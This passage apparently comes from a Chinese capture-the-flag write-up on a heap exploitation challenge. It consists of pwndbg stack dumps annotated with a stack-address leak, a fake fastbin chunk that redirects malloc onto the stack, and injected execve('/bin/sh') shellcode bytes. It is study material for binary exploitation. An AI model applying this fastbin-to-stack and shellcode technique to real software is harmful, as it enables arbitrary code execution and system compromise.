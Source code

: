 ```c
0x7fffffffdd78: 0x6161616161616161  0x00007fffffffdda0 
    								#printf会泄露的内容：&rbp
0x7fffffffdd88: 0x0000000000400b59  0x00007fffffffde88
0x7fffffffdd98: 0x0000000100000000  0x0000000000400b60
    								#rbp，内容所在的地址为：0x7fffffffdda0
0x7fffffffdda8: 0x00007ffff7a2d840  0x0000000000000001
    			#d840是main函数的返回地址
0x7fffffffddb8: 0x00007fffffffde88  0x00000001f7ffcca0
0x7fffffffddc8: 0x0000000000400b36  0x0000000000000000
0x7fffffffddd8: 0x35e7fe72fd004534  0x00000000004006b0
0x7fffffffdde8: 0x00007fffffffde80  0x0000000000000000
0x7fffffffddf8: 0x0000000000000000  0xca18010d50a04534
0x7fffffffde08: 0xca1811b744304534  0x0000000000000000
0x7fffffffde18: 0x0000000000000000  0x0000000000000000
Pwndbg> 
```

#### 执行登录操作
```c
checkin(0x30,p64(0)*3+p64(reg_RBP - 0xc0 + 1))
```

Checkin中的malloc，由于fastbin=0x7fffffffdd00，因此malloc后ptr=0x7fffffffdd10

执行malloc之后：

```c
#释放fastbin中刚才回收的chunk，结果如下：
#&rbp-90==0x7fffffffdd10
pwndbg>  x/50gx 0x7fffffffdc98
0x7fffffffdc98: 0x0000000000400824  0x000000000000000e
0x7fffffffdca8: 0x0000000000000000  0x00007fffffffdcd0
0x7fffffffdcb8: 0x00000000004009e0  0x0000000000000000
0x7fffffffdcc8: 0x00007ffff7ffe168  0x00007fffffffdd20
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
#payload更改的内容：
0x7fffffffdcd8: 0x0000000000400a8c  0x69622fbb48f63100 #shellcode_start
    								#buf从这里开始
0x7fffffffdce8: 0x54535668732f2f6e	0x050fd231583b6a5f #shellcode_end
0x7fffffffdcf8: 0x0000000000000000  0x0000000000000000
0x7fffffffdd08: 0x0000000000000041  0x0000000000000000
    								#输入的id内容
									#此内容所在的地址为：0x7fffffffdd10
0x7fffffffdd18: 0x00007fffffffdd10  0x00007fffffffdd80
    			#ptr现在被修改为指向0x7fffffffdd10
    			#malloc_chunk地址为：0x7fffffffdd00
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''    
0x7fffffffdd28: 0x0000000000400b34  0x00007ffff7dd18e0
0x7fffffffdd38: 0x00007ffff7fdc700  0x0000000000000003
0x7fffffffdd48: 0x00000000000001c8  0x6161616161616161 
    			#输入的id大小		 #name从这里开始
0x7fffffffdd58: 0x6161616161616161  0x6161616161616161
0x7fffffffdd68: 0x6161616161616161  0x6161616161616161
0x7fffffffdd78: 0x6161616161616161  0x00007fffffffdda0 
    								#printf会泄露的内容：&rbp
0x7fffffffdd88: 0x0000000000400b59  0x00007fffffffde88
0x7fffffffdd98: 0x0000000100000000  0x0000000000400b60
    								#rbp，内容所在的地址为：0x7fffffffdda0
0x7fffffffdda8: 0x00007ffff7a2d840  0x0000000000000001
    			#d840是main函数的返回地址
0x7fffffffddb8: 0x00007fffffffde88  0x00000001f7ffcca0
0x7fffffffddc8: 0x0000000000400b36  0x0000000000000000
0x7fffffffddd8: 0x35e7fe72fd004534  0x00000000004006b0
0x7fffffffdde8: 0x00007fffffffde80  0x0000000000000000
0x7fffffffddf8: 0x0000000000000000  0xca18010d50a04534
```